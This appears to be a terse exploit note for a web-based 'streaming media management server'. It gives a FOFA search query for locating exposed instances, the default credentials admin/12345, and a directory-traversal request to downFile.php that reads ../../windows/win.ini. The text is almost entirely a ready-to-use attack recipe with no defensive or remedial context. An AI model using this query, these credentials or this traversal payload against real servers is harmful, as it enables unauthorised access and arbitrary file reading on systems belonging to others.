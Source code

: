 <languages   />

FOFA
----

    title="流媒体管理服务器"

Login
-----

    admin/12345

File Reading
------------

    /systemLog/downFile.php?fileName=../../../../../../../windows/win.ini